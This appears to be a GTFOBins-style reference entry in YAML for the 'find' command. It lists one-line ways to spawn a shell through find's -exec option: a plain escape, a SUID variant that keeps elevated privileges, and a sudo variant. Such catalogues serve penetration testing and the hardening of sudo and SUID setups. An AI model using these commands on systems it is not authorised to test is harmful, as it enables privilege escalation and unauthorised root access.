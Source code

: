```yaml
---
functions:
  shell:
    - code: find . -exec /bin/sh \; -quit
  suid:
    - code: ./find . -exec /bin/sh -p \; -quit
  sudo:
    - code: sudo find . -exec /bin/sh \; -quit
---
```

